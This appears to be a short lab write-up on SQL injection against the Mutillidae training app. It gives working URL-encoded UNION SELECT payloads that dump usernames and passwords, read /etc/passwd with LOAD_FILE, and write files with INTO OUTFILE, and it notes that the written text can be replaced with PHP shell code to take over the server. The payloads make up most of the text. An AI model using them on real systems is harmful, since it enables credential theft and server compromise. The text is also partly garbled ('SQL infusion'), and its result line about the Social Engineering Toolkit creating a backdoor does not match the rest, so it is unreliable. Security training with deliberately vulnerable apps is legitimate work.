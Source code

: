 Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=abinaya%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/jagadeepreddy11/sqlinjection/assets/150368525/3c133eb0-0424-44f9-bd36-d8328e5917bf)


Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/jagadeepreddy11/sqlinjection/assets/150368525/fea08dfe-2a5c-4ec5-be1f-438501d7cc01)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:

The Social Engineering Toolkit (SET) is used to create backdoor is examined successfully
